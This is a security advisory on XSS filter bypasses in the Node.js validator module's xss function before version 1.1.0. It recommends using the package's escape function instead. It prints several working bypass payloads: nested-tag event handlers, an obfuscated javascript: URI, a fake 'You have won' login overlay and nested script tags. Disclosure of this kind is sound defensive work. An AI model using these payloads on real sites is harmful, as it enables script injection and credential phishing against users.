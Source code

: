 ```yaml
---
title:  Multiple XSS Filter Bypasses
author:  Neal Poole, Krzysztof Kotowicz
module_name: validator
publish_date: Fri Jul 05 2013 12:29:10 GMT-0700 (PDT)
cves: "[]"
vulnerable_versions: "< 1.1.0"
patched_versions: ">= 1.1.0"
...
```


## Overview:
The validator module for Node.js contains functionality meant to filter potential XSS attacks (a filter called xss). Several ways to bypass the filter were discovered. In general, because the function’s filtering is blacklist-based it is likely that other bypasses will be discovered in the future. Developers are encouraged not to use the xss filter function in this package.

## Details:
Various inputs that could bypass the filter were discovered:

Improper parsing of nested tags:

```
<s <onmouseover="alert(1)"> <;s onmouseover="alert(1)">This is a test</s>
```

Incomplete filtering of javascript: URIs:

```
<a href="javascriptJ a V a S c R iPt::alert(1)" "<s>">test</a>
```

UI Redressing:

```
<div style="z-index: 9999999; background-color: green; width: 100%; height: 100%">
<h1>You have won</h1>Please click the link and enter your login details:
<a href="http://example.com/">http://good.com</a>
</div>
```

Bypass via Nested Forbidden Strings:

```
<scrRedirecRedirect 302t 302ipt type="text/javascript">prompt(1);</scrRedirecRedirect 302t 302ipt>
```

Additional bypasses were discovered by Krzysztof Kotowicz in 2012 when auditing CodeIgniter's XSS filtering function, which this code was based off of.

## Recommendations:
If you are a developer currently using the xss filter function from the validator package, you should consider replacing it with the escape filter function from the same package. This function replaces all instances of angle brackets (<, >), ampersands, and quotation marks, so no HTML tags will be processed.

## Reference:

- [XSS Filter Bypass in validator Node.js Module](https://nealpoole.com/blog/2013/07/xss-filter-bypass-in-validator-nodejs-module/)
- [CodeIgniter <= 2.1.1 xss_clean() Cross Site Scripting filter bypass](http://blog.kotowicz.net/2012/07/codeigniter-210-xssclean-cross-site.html)
